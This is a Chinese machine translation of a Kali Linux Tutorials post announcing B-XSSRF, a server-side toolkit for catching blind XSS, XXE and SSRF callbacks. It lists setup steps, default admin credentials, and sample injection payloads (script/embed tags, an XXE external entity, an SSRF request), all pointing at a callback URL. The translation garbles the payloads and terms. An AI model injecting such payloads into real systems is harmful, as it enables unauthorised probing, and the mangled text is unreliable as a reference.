

# B-XSSRF:检测和跟踪 XSS、XXE 和 SSRF 盲人的工具包

> 原文：<https://kalilinuxtutorials.com/b-xssrf-blind-xss-xxe-ssrf/>

B-XSSRF 是一个工具包，用于检测和跟踪盲人 XSS，XXE & SSRF。

**阅读更多-[red hunt OS:对手模拟虚拟机&威胁追踪](https://kalilinuxtutorials.com/redhunt-os-virtual-machine/)**

**设置**

*   将文件上传到您的服务器。
*   创建一个数据库并将 **database.sql** 文件上传到其中。
*   更改【db.php】文件**中的 **DB 凭证**。**
*   准备好了。

**用法**

**盲人 XSS**

<embed src="”http://mysite.com/bxssrf/request.php”">
<script src = " http://my site . com/bxssrf/request . PHP ">

**盲目二十**

<DOCTYPE 根[
]T6！ENTITY % ext SYSTEM " http://my site . com/bxssrf/request . PHP ">% ext；
>
r>

**SSRF**

GET/tests SRF . PHP = http://my site . com/bxs SRF/request . PHP

**默认凭证**

**用户:**admin@test.com
通行证: 123456

[**Download**](https://github.com/SpiderMate/B-XSSRF)